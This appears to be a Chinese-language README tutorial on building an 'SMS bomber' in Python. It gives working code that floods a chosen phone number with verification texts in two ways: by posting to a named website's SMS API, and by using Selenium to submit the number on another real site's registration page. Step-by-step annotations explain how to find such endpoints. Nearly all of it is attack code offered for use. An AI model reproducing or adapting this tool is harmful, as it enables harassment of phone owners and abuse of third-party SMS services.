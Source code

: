 # 短信轰炸程序解析

该教程以Python为例介绍了两种常用的短信轰炸方式

## 方法一：调用网站的短信接口

该方法的本质是调用了网站发送短信的接口，模拟了一个HTTP请求（即模拟一个post或者一个get请求）

### 示范代码如下

~~~python
import requests

headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}
def iask(phone_number):
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)
    print("iask网站",response.text)
~~~

### 1、准备requests包

pip命令下载所需的requests包

~~~python
pip install requests
~~~

### 2、代码解析

#### （1）第一段代码解析

~~~python
import requests #导入所需要的包

 #构造一个报文头假装自己是一个浏览器
 #User-Agnet是浏览器的意思，我们从浏览器抄写一手
headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}

~~~

#### （2）第二段代码解析

**找接口（以爱问知识网为例）**
网址如下：<https://iask.sina.com.cn>

**我们模拟注册过程**
![我们模拟注册过程](./1.png)

**寻找所需的数据**
![寻找所需的数据](./2.png)
![寻找所需的数据](./3.png)
![寻找所需的数据](./4.png)
**根据信息，构造自己的HTTP报文，模拟注册**

~~~python
def iask(phone_number):
    #这是我们刚才找到的表单数据
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    #刚才我们发现请求时post请求，所以我们试用requests.post方法
    #把我们刚才造好的headers和data放入请求中
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)

    #得到一个返回值，可以查看是否成功
    print("iask网站",response.text)
~~~

## 方法二：模拟点击

**为什么我们要通过模拟点击的方法实现一个短信轰炸？**
因为很多网站发送的报文信息都是加密的，我们不知道他们的加密方式，所以我们没法模拟注册

### 示范代码如下

~~~python
from selenium import webdriver
def wangke(phone_number):
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()
    browser.close()
~~~

### 1、准备环境

#### （1）下载selenium包

~~~python
pip install selenium
~~~

#### （2）下载浏览器的驱动（以Eege为例）

* Edge驱动下载地址，根据自己的浏览器下载所需的驱动
驱动下载地址：<https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/>

* 解压到一个合适的位置，我们一会通过绝对路径的方式引用该驱动

### 2、代码解析

#### （1）第一段代码解析

~~~python
 #导入我们所需要的包selenium
from selenium import webdriver

def wangke(phone_number):
    #根据绝对路径导入驱动
    #也可以配置环境变量的方式，这里以绝对路径演示
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')

    #网站的网址
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)

    #定位输入手机号的位置，并输入手机号
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)

    #定位发送验证码按钮，点击按钮
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()

    #关闭浏览器
    browser.close()
~~~

#### (2)定位方法解析（需要基本的HTML基础知识）

* 定位按钮
![定位按钮](./5.png)

* 定位手机号输入框
![定位手机号输入框](./6.png)

* 定位发送验证码按钮
![定位发送验证码按钮](./7.png)
